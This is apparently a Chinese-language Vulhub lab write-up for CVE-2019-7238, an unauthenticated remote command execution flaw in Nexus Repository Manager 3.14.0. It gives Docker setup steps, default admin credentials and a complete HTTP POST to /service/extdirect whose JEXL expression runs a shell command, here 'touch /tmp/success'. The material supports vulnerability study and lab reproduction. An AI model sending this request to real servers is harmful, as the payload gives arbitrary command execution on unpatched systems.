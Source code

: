 # Nexus Repository Manager 3 远程命令执行漏洞 CVE-2019-7238

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.14.0及之前版本中，存在一处基于OrientDB自定义函数的任意JEXL表达式执行功能，而这处功能存在未授权访问漏洞，将可以导致任意命令执行漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360017310793-CVE-2019-7238-Nexus-Repository-Manager-3-Missing-Access-Controls-and-Remote-Code-Execution-February-5th-2019
- https://xz.aliyun.com/t/4136
- https://www.anquanke.com/post/id/171116
- http://commons.apache.org/proper/commons-jexl/

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.14.0：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

使用账号密码`admin:admin123`登录后台，然后在maven-releases下随便上传一个jar包：

![image-20220226234636808](./images/202202262346892.png)

触发该漏洞，必须保证仓库里至少有一个包存在。

## 漏洞复现

接口没有校验权限，所以直接发送如下数据包，即可执行`touch /tmp/success`命令：

```
POST /service/extdirect HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: */*
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 368
Connection: close

{"action":"coreui_Component","method":"previewAssets","data":[{"page":1,"start":0,"limit":50,"sort":[{"property":"name","direction":"ASC"}],"filter":
[{"property":"repositoryName","value":"*"},{"property":"expression","value":"233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/success')"},{"property":"type","value":"jexl"}]}],"type":"rpc","tid":8}
```

![image-20220226234815987](./images/202202262348240.png)

可见，`/tmp/success`已成功执行：

![image-20220226234852790](./images/202202262348849.png)

原理是expression位置的JEXL表达式被执行，详情可阅读参考文档。

